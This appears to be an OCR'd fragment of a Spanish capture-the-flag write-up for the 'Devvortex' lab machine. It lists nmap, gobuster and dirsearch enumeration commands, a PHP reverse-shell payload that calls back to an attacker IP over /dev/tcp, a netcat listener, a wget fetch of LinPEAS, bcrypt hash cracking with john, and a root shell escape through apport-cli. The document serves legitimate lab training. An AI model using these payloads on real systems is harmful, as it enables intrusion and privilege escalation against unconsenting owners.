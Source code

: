 ```bash
# Nmap básico
sudo nmap -sV -sC 10.10.11.242

# Enumeración VHOST
gobuster vhost -u devvortex.htb -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt

# Enumeración de directorios
dirsearch -u http://dev.devvortex.htb/

# Reverse Shell
<?php system("bash -c 'sh -i >& /dev/tcp/10.10.14.11/4444 0>&1'"); ?>

# Escuchar conexión
nc -lvnp 4444

# Subir LinPEAS
python3 -m http.server 8000
wget http://10.10.14.11:8000/linpeas.sh

# MySQL login
mysql -u lewis -p

# Crackear hashes
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Escalar a root con apport-cli
sudo apport-cli
# Dentro del editor:
!/bin/bash
```

---

## 🎯 Resumen  

Máquina enfocada en:  
- Explotación de Joomla.  
- Recolección de credenciales y movimientos laterales.  
- Escalada de privilegios mediante binarios vulnerables.  

---
